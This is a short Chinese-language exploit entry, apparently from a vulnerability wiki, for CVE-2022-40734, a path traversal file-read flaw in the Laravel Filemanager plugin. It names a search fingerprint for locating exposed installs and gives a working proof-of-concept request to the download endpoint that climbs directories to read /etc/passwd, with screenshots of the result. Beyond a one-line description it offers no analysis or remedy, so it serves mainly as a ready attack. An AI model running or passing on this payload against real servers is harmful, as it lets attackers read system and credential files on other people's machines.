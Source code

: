 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

<a-checkbox checked>Laravel Filemanager插件</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Laravel Filemanager"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1664084648855-fcb64ea4-cb62-4919-810c-a7d5af1f32d4.png)

验证POC

```sql
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1664084692096-263ec0e8-f683-4ec3-8d01-d2b0bc177fc2.png)